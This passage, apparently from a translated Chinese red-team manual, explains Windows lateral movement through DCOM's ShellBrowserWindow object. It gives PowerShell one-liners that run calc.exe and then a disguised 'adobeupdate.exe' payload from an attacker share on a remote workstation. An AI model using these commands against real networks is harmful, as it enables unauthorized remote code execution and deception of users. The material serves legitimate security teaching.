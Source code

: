 ### 利用 DCOM 的横向移动

有许多方法可以在主机上进行单次横向移动。如果泄露的帐户具有访问权限，或者你能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程命令执行或 PSExec 生成不同的 shell。如果这些执行命令的方法受到监控怎么办？我们通过使用分布式组件对象模型（DCOM）实现一些很酷的 Windows 功能。DCOM 是用于在不同远程计算机上的软件组件之间通信的 Windows 功能。

你可以使用 Powershell 命令列出计算机的所有 DCOM 应用程序：GetCimInstance Win32_DCOMApplication

![](img/4-37.png)

安全研究员 @enigam0x3 的研究发现（ https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/ ），有多个对象（例如 ShellBrowserWindow 和 ShellWindows ）允许在受害者主机上远程执行代码。当列出所有 DCOM 应用程序（如上图所示）时，你将看到一个 CLSI 为 C08AFD90-F2A1-11D1-845500A0C91F3880 的 ShellBrowserWindow 对象。识别出该对象后，只要我们的帐户有权访问，我们就可以利用此功能在远程工作站上执行二进制文件。

- powershell
- $([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“c:\windows\system32\calc.exe”)

这将只在系统本地执行文件，并且我们不能将任何命令行参数包含到可执行文件中（因此不能使用 cmd /k 类型的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意，用户将收到警告的弹窗。在本例中，我目前在一个受害者的主机 neil.cyberspacekittens.local 上，该主机可以管理访问一个名为 buzz 的远程工作站。我们将在 Neil 的工作站上共享一个文件夹，并托管我们的 payload。接下来，我们可以调用 DCOM 对象在远程受害者（buzz）计算机上执行托管的 payload。

$([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-
00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“\neil.cyberspacekittens.local\Public\adobeupdate.exe”)

![](img/4-38.png)

正如你在下一张图片中看到的，Buzz 的计算机上出现了一个关于运行 adobeupdate.exe 文件的弹出窗口。虽然大多数用户都会点击并运行这个，但它可能会让我们被目标察觉。

![](img/4-39.png)
